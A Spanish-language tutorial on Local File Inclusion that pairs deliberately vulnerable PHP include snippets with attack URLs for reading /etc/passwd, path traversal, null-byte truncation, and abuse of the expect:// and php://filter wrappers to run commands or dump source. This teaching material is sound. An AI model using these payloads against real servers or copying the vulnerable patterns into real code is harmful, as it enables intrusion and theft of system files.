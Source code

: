 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad 'Local File Inclusion', 'LFI' por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* XSS (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script de PHP:

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Donde podemos leer cualquier archivo del sistema, en este caso el '/etc/passwd'

```
https://localhost/lfi.php?filename=/etc/passwd
```

Es importante aclarar que esta no es solo una vulnerabilidad de PHP, también está presente en otros lenguajes como lo es JSP o ASP.

### [](#header-3)Directory Path Traversal

Es posible que en el código se nos limite a acceder a archivos que se ubican únicamente en la ruta establecida, en este caso '/var/www/html/'.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta establecida si añadimos '../', pudiendo así listar contenido más allá de '/var/www/html/'.

```
https://localhost/lfi.php?filename=../../../etc/passwd
```

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos con únicamente de la extensión establecida, en este caso 'PHP'.

```php
<?php
	$file = $_GET['filename'];
        require($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo '/etc/passwd', o cualquier otro archivo, lo que estariamos leyendo en realidad sería el archivo '/etc/passwd.php', el cual no existe. Sin embargo, si añadimos el nullbyte (`%00`) al final de nuestra cadena de ataque, el '.php' no será tenido en cuenta. 

```
https://localhost/lfi.php?filename=/etc/passwd%00
```

### [](#header-3)Wrappers

PHP cuenta con una serie de "wrappers", los cuales a menudo pueden ser abusados, por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE).

```
https://localhost/lfi.php?filename=expect://whoami
```

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser Base64 o ROT13. 

Es bastante útil si necesitamos leer un archivo en PHP, ya que recordemos, este es un lenguaje interpretado, por lo que si intentamos leer un archivo PHP, no veríamos nada.

```
https://localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=test.php
```
